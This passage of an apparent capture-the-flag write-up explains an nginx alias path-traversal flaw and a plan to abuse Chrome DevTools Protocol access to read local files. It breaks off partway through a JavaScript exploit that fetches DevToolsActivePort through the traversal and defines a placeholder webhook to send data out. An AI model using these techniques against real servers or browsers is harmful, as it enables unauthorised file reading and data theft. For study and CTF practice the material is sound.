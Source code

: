 There are more details [here](https://www.acunetix.com/vulnerabilities/web/path-traversal-via-misconfigured-nginx-alias/) but here is a brief summary.

Nginx `alias` is a replacement for the path specified in `location`, for example:
```
location /i/ {
    alias /data/w3/images/;
}
```

If I sent a request to `/i/example.txt` it is getting the file from `/data/w3/images/example.txt`.

Our configuration has the following (with some lines removed for brevity):
```
location /logs {
    alias /tmp/bot_folder/logs/;
}
```

Due to the lack of the closing `/` on `/logs`, we can achieve path traversal.

We can just read the flag now! `http://localhost/logs../../../root/flag2.txt`... Just kidding, we don't have permissions.

After a decent amount of poking around, I am shown Chrome DevTools Protocol!

## Chrome DevTools Protocol

This is a websocket connection used with a path and port specified in `DevToolsActivePort` (which we can access with the nginx misconfiguration). It allows for a lot of functionality which can be read up more on [here](https://chromedevtools.github.io/devtools-protocol/) but a few features caught my eye:

> Note: I couldn't get `Page` features working but I think that's because I was not on an active page yet with my commands, I'll outline further why later.

`Target` has some interesting capabilites such as:
- [`createTarget`](https://chromedevtools.github.io/devtools-protocol/tot/Target/#method-createTarget) - Creates a new page.
- [`attachToTarget`](https://chromedevtools.github.io/devtools-protocol/tot/Target/#method-attachToTarget) - Attaches to the target with given id.

Once attached we can use `Runtime` features which seem very useful:
- [`enable`](https://chromedevtools.github.io/devtools-protocol/tot/Runtime/#method-enable) - Enables reporting of execution contexts creation by means of `executionContextCreated` event. When the reporting gets enabled the event will be sent immediately for each existing execution context.
- [`evaluate`](https://chromedevtools.github.io/devtools-protocol/tot/Runtime/#method-evaluate) - Evaluates expression on global object.

If we could create a terget to the `file:///` URI and then attach to that target, we could then utilise `Runtime.evaluate` to read the content of the page?

## Starting small

Let's work on a basic payload just to connect to devtools:
```js
(async () => {
  let res = await fetch('http://localhost/logs../browser_cache/DevToolsActivePort', {
    cache: 'no-cache'
  });
  let text = await res.text();
  console.log(text);
  const lines = text.trim().split('\n');
  const port = parseInt(lines[0].trim(), 10);
  let path = lines[1].trim();
  const wsUrl = `ws://localhost:${port}${path}`;
  let ws;
  const webhook = `https://WEBHOOK/`
  
```